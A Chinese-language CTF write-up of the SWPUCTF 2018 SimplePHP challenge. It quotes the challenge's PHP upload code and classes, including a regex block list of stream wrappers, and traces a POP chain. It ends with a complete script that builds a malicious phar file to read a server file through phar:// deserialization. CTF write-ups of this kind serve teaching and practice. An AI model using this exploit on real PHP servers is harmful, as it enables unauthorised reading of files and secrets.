


# [SWPUCTF 2018]SimplePHP

## 知识点

`phar反序列化`

## 解题

在页面有`上传文件`和`查看文件`的功能，查看文件时猜测有`php伪协议`，尝试读取源码时发现失败，直接给文件名就会直接读取源代码



首先上传的文件会经过这个规则修改文件名

```php
function upload_file_do() { 
    global $_FILES; 
    $filename = md5($_FILES["file"]["name"].$_SERVER["REMOTE_ADDR"]).".jpg"; 
    //mkdir("upload",0777); 
    if(file_exists("upload/" . $filename)) { 
        unlink($filename); 
    } 
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $filename); 
    echo '<script type="text/javascript">alert("上传成功!");</script>'; 
} 
```

我们就可以算出上传后的文件名，后续还可以查看文件，猜测是`phar反序列化`，查看`class.php`

```php
<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
    public function __destruct()
    {
        $this->test = $this->str;
        echo $this->test;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($file)
    {
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;
    }
    public function __toString()
    {
        $content = $this->str['str']->source;
        return $content;
    }
    public function __set($key,$value)
    {
        $this->$key = $value;
    }
    public function _show()
    {
        if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)) {
            die('hacker!');
        } else {
            highlight_file($this->source);
        }
        
    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
            echo "hacker~";
            $this->source = "index.php";
        }
    }
}
class Test
{
    public $file;
    public $params;
    public function __construct()
    {
        $this->params = array();
    }
    public function __get($key)
    {
        return $this->get($key);
    }
    public function get($key)
    {
        if(isset($this->params[$key])) {
            $value = $this->params[$key];
        } else {
            $value = "index.php";
        }
        return $this->file_get($value);
    }
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
?>
```

寻找到`pop链`

```php
C1e4r::__destruct -> Show::__toString() -> Test::__get() -> Test::get() -> Test::file_get()
```

最后构造`phar文件`

```php
<?php

class C1e4r
{
    public $test;
    public $str;

    public function __construct($name)
    {
        $this->str = $name;
    }
}

class Show
{
    public $source;
    public function __construct($file)
    {
        $this->source = $file;   //$this->source = phar://phar.jpg
        echo $this->source;
    }
    public $str;
}
class Test
{
    public $file;
    public $params;

    public function __construct()
    {
        $this->params = array();
    }
}

$b = new Show(1);
$b->str['str'] = new Test();
$b->str['str']->params['source'] = '/var/www/html/f1ag.php';
$a = new C1e4r($b);

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

构造出来的`phar.phar`改名为`phar.gif`上传，最终使用`phar`伪协议利用



最后`base64`解码即可获取`flag`

